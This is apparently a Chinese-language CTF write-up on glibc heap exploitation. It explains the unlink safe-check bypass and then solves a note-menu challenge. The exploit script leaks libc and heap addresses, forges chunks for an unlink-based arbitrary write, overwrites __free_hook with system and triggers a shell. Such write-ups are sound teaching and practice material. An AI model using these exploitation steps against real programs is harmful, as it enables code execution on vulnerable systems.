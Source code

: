 ## double free的基本原理
```
FD = P->fd;
BK = P->bk;
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
    malloc_printerr (check_action, "corrupted double-linked list", P, AV);
else {
    FD->bk = BK;
    BK->fd = FD;
}
```
根据chunk的结构可知 `p->fd=p+0x10,p->bk=p+0x18`<br>
所以上面代码就可以转换成<br>
```
FD = P->fd; //FD = P + 0x10
BK = P->bk; //BK = P + 0x18
if (__builtin_expect (FD->bk != P || BK->fd != P, 0)) //FD + 0x18 != P || BK + 0x10 != P  
    malloc_printerr (check_action, "corrupted double-linked list", P, AV);
else {
    FD->bk = BK; //FD + 0x18 = BK = P + 0x18
    BK->fd = FD; //BK + 0x10 = FD = P + 0x10
}
```
由于其中有 `FD->bk != P || BK->fd != P` 这个判断，所以最容易构造的场景就是找到一个指向P的指针A<br>
```
P = FD->bk && P = BK->fd  ==> P = FD+0x18 && P = BK+0x10
P = FD+0x18 && P = BK+0x10 ==> P = P->fd + 0x18 && P = P->bk + 0x10
A = P //存在指向P的指针A
P = P->fd + 0x18 && P = P->bk + 0x10 ==> A = P->fd + 0x18 && A = P->bk + 0x10
A = P->fd + 0x18 && A = P->bk + 0x10 ==> A - 0x18 = P->fd && A - 0x10 = P->bk
```
推导的结论就是 `P->fd = A - 0x18  &&  P->bk = A - 0x10 ` <br>
能找到满足条件的A，并且将P的fd和bk填充成上述值，就能通过上面的double-linked list的检测<br>
并且能将A的值改写成 <br>
```
BK->fd = FD ==> P->bk->fd = P->fd 
            ==> P->bk = P 
            ==> A->bk = A 
            ==> A+0x18 = A
            ==> A = A - 0x18 //A最终会被赋值成A-0x18的值，这里=不是等，是赋值
```
说人话，double free 就是找到一个指向P的指针A，让P的fd和bk和A互相指，通过if的判断，并且可以修改A的值<br>
这里说的可能不是很清楚，用题目里面的具体数据来解释可能会好一些<br>

## unlink
### 一个menu题目
![](img/menu.PNG)

### 漏洞点
首先看一下new_note<br>
qword_6020A8+8 是note总数量<br>
之后是一个结构体<br>
```
struct note{
    int in_use;     //qword_6020A8+24*i+16
    int len;        //qword_6020A8+24*i+24
    char* data;     //qword_6020A8+24*i+32
}
```
![](img/new_note.PNG)<br>

漏洞点主要在free_note<br>
free_note只将in_use和len清0，总数减一，但是free的时候没有判断这个note是否in_use<br>
并且data的指针只free，没有置空，所以这里存在double free<br>
![](img/free_note.PNG)<br>

### 利用总体思路
1.申请smallbin大小的chunk，然后将其free，使得此chunk的fd和bk填充上unsorted bin的地址<br>
2.使用edit_note合并第一步free的chunk,然后通过list泄露libc基址，用同样的方法泄露出heap的基址<br>
3.利用note结构体中指向heap的指针和heap中的chunk构造double free，使得修改了note结构体中data的地址，让data指向了note结构体<br>
4.edit是根据note->data中的地址写，上一步修改了note->data，note->data指向了note，所以这里可以写note,达成任意地址写<br>
```
note[0]->data=free_hook
note[1]->data=note[2]->in_use
note[2]->in_use='/bin/sh\x00'
```
5.然后edit(note[0])就可以修改free_hook的地址，修改成system，之后free(note[1]->data) --> system('/bin/sh\x00')

### 详细的利用步骤
#### 1.申请smallbin大小的chunk，然后将其free，使得此chunk的fd和bk填充上unsorted bin的地址
chunkb和chunkd都被串在unsorted bin 上了<br>
此时chunka即包含libc的基址（指向unsorted bin），也包含指向heap的基址（指向chunkb）<br>
![](img/unsorted_bin.PNG)<br>
```
new(0x100,'a'*0xff)
new(0x100,'b'*0xff)
new(0x100,'c'*0xff)
new(0x100,'d'*0xff)
new(0x100,'e'*0xff)

delete(1)
delete(3)
```

#### 2.使用edit_note合并第一步free的chunk,然后通过list泄露libc基址，用同样的方法泄露出heap的基址
使用chunka去,通过edit_note中的realloc合并chunkb,然后通过list就可以泄露基址了<br>
```
edit(0,0x110,'a'*0x10f)
list()
libc_base=u64(p.recvuntil('\x7f')[-6:] + '\x00\x00')
libc_base = libc_base-0x58-libc.symbols['__malloc_hook']-0x10
success(hex(libc_base))

edit(0,0x118,'a'*0x117)
list()
heap_addr=u64(p.recvuntil('\x60')[-3:] + '\x00'*5)

gbuff=heap_addr-(256+16)*3-0x1810
success(hex(gbuff))
```

#### 3.利用note结构体中指向heap的指针和heap中的chunk构造double free
虽然chunkb在前面被free了，但是在note[1]结构体中依然保存着chunkb的data区域的指针<br>
然后通过edit中的realloc可以修改chunkb的fd和bk伪造chunk<br>
chunka+chunkb的这一块大空间伪造了三个chunk<br>
chunk0(free)+chunk1(将要被free，造成double free)+chunk2(size正常，规避next-size检测机制)<br>
```
payload=p64(0)+p64(0x101)+p64(gbuff+0x20-0x18)+p64(gbuff+0x20-0x10)+'A'*0xe0
payload+=p64(0x100)+p64(0xd0)+p64(0)*2+'B'*0xb0
payload+=p64(0xc0)+p64(0x41)+p64(gbuff)*2

edit(0,0x1f0,payload)
delete(1)
```
#### Q1:如何double free呢？
我们可以再图2中note[0]->data找到指向chunk1的指针，如果能使chunk1和note[0]->data形成一个双向链表，就可以通过free(chunk2 or old chunkb),然后就会尝试unlink chunk1，由于chunk1满足unlink的检测条件，所以这里可以unlink成功，并且可以将note[0]->data修改成chunk1的fd<br><br>
#### Q2:为什么可以free(chunk2 or old chunkb)，chunk2不是已经在new chunka中了吗？
free_note的时候并没有检查当前chunk是否处于in_use的状态，并且也没有对note->data区域清空，所以这里可以再次free<br><br>
#### Q3:为什么chunk1的fd=0x601018,bk=0x601020，就可以满足double free的条件？
因为要通过double的检测，所以chunk1->fd->bk=chunk1，(chunk1->fd)+0x18=0x603030,0x603030指向的就是chunk1<br>
得到chunk1->fd=0x603018,同理 chunk1->bk=0x603030-0x10 = 0x603020。<br><br>
#### Q4:为什么unlink chunk1之后会将note[0]->data修改成0x603018?
对于我们这种情况，chunk1->fd->bk = chunk1->bk->fd = 0x603030(note[0]->data)<br>
即 FD->bk=BK->fd=0x603030(note[0]->data)，之后对FD->bk、BK->fd进行了赋值<br>
FD->bk=chunk1->bk,chunkBK->fd=chunk1->fd，所以note[0]->data最终被赋值成chunk1->fd<br><br>
![](img/double_free_heap.PNG)<br>
图1：heap<br>
![](img/double_free_note.PNG)<br>
图2：note<br>

#### 4.任意地址写，修改free_hook->system，然后执行system('/bin/sh')<br>
edit是根据note->data中的地址写，上一步修改了note[0]->data，note[0]->data指向了0x603018，所以这里可以修改所有note的in_use/len/data区域,从而达成任意地址写


```
free_hook=libc_base+libc.symbols['__free_hook']
payload=p64(2)+p64(1)+p64(0x1f0)+p64(free_hook)+p64(1)+p64(8)+p64(gbuff+0x40)+'/bin/sh\x00'
payload=payload.ljust(0x1f0,'a')

edit(0,0x1f0,payload)

system=libc_base+libc.symbols['system']
payload=p64(system)
edit(0,0x1f0,payload.ljust(0x1f0,'\x00'))

delete(1)

```







